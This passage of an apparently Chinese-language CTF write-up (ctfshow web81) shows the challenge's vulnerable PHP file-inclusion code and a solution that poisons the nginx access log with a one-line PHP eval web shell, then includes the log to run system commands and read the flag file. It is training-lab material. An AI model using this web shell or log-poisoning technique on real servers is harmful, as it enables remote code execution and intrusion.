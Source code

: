 

<img src="https://i-blog.csdnimg.cn/blog_migrate/3044dfe6ec55c0a8acebf9e9d92a2a4d.png" alt="" style="max-height:194px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/adfedc646f5078bec6b644729230c8f1.png" alt="" style="max-height:236px; box-sizing:content-box;" />


```cobol
1=system('tac /var/www/html/fl0g.php');
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/247c9c98e0e77b1d0083d6b98a29bbbb.png" alt="" style="max-height:235px; box-sizing:content-box;" />


## web81

```cobol
 <?php
 
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 15:51:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
 
*/
 
 
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

发现还是可以使用日志包含

访问 /var/log/nginx/access/log

上传一句话木马

```php
<?php @eval($_GET[1]);?>
```

```cobol
/?file=/var/log/nginx/access.log&1=system('ls /var/www/html');
```
